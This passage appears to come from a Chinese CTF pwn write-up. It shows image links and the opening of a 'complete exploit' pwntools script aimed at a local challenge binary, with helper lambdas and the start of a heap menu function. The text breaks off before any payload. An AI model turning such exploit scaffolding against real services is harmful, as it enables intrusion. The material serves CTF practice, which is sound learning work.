 [![](assets/1701606938-61ab524fc12fed19dbc785263dcd25d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201555-6cb33268-6a8b-1.png)

完整exp：

```plain
from pwn import *
#from LibcSearcher import *

context(log_level='debug',arch='amd64', os='linux')
pwnfile = "./pwn"
#io = remote("challenge-62baade3e67b5724.sandbox.ctfhub.com", 23306)
io = process(pwnfile)
elf = ELF(pwnfile)
#libc = ELF("./libc-2.23.so")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def dbg():
    gdb.attach(io)
    pause()

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))


def add(size,data):
    ru(b"Input your choice >> \n")
```